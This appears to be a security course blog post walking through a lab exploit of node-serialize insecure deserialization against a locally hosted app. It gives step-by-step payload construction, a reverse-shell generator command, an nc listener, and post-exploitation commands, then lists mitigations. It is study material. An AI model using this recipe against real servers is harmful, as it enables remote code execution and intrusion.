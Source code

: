 ```yaml
---
layout: post
title: Week 8
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

We will be exploiting a known vulnerability of node-serialize discussed in last week's post.      
>**Vulnerabiltiy:** Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE). Specifically the vulnerability in the web app is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and passes it to unserialize() function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability. <sub>[1]</sub>

### Exercise 
**Note:** Since this excercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back-end to prevent these kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial. Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and open the terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything starting at `eval(`  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or type the following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Open a terminal and type `nc -l 127.0.0.1 3333`.  Looks like nothing is happening but give it a minute while we run the rest of the exploit. 

7. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. You should get a Response 302 Found and a message Redirecting like the image below. 

   ![Repeater Redirecting](/images/week8_Redirecting.JPG)   
   
8. Go back to the terminal where you entered `nc -l 127.0.0.1 3333` and you will see a Connected! message. Here are a few commands you can try      
`ls` list directory contents.      
`whoami` It displays the username of the current user.      
`pwd` Print Working Directory. It prints the path of the working directory, starting from the root.     
`uname -r` Used to get information about current operating system. In this case the Linux kernel version.     
`cat /etc/os-release` Name, version of Operating System.     
`exit` Get out of shell and back into working directory.     

   ![Shell](/images/week8_Connected.JPG)   

**[Video of Insecure Deserialization on localhost](https://media.oregonstate.edu/media/t/0_1e1lfvl2)**

### Analysis
Do not to accept serialized objects from untrusted sources or to use serialization mediums that only permit primitive data types. If that is not possible, consider the following:     
- Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
- Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege environments when possible.
- Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
Monitoring deserialization, alerting if a user deserializes constantly. <sub>[2]</sub>

### References
1. <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
2. <https://hdivsecurity.com/owasp-insecure-deserialization> 
3. <https://github.com/ajinabraham/Node.Js-Security-Course>
4. <https://expressjs.com/en/resources/middleware/cookie-parser.html>
5. <https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/>

# Insufficient Logging & Monitoring

